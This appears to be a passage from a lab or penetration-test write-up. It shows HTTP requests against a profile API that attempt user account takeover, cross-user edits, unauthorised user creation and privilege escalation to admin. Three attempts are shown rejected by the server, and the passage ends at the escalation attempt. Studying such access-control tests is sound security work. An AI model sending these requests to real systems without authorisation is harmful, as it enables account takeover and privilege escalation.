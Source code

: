 ### Exploitation Techniques

#### Attack 1: User Account Takeover
**Attempt to change UID:**
```http
PUT /profile/api.php/profile/2 HTTP/1.1
Content-Type: application/json

{
    "uid": 2,  # Changed to target user
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "employee", 
    "full_name": "Attacker Name",
    "email": "attacker@evil.com"
}
```

**Response:** `uid mismatch` - API validates UID against endpoint

#### Attack 2: Cross-User Data Modification
**Attempt to modify other user's details:**
```http
PUT /profile/api.php/profile/2 HTTP/1.1
Content-Type: application/json

{
    "uid": 2,  # Match endpoint UID
    "uuid": "40f5888b67c748df7efba008e7c2f9d2", # Our UUID
    "role": "employee",
    "full_name": "Modified Name"
}
```

**Response:** `uuid mismatch` - API validates UUID ownership

#### Attack 3: User Creation (Admin Privilege Required)
**Attempt to create new user:**
```http
POST /profile/api.php/profile/999 HTTP/1.1
Content-Type: application/json

{
    "uid": 999,
    "uuid": "new-uuid-value", 
    "role": "employee",
    "full_name": "New User"
}
```

**Response:** `Creating new employees is for admins only`

#### Attack 4: Privilege Escalation
**Attempt role elevation:**
```http
PUT /profile/api.php/profile/1 HTTP/1.1
Content-Type: application/json

{
    "uid": 1,
    "uuid": "40f5888b67c748df7efba008e7c2f9d2",
    "role": "admin",  # Privilege escalation attempt
    "full_name": "Amy Lindon"
}
```
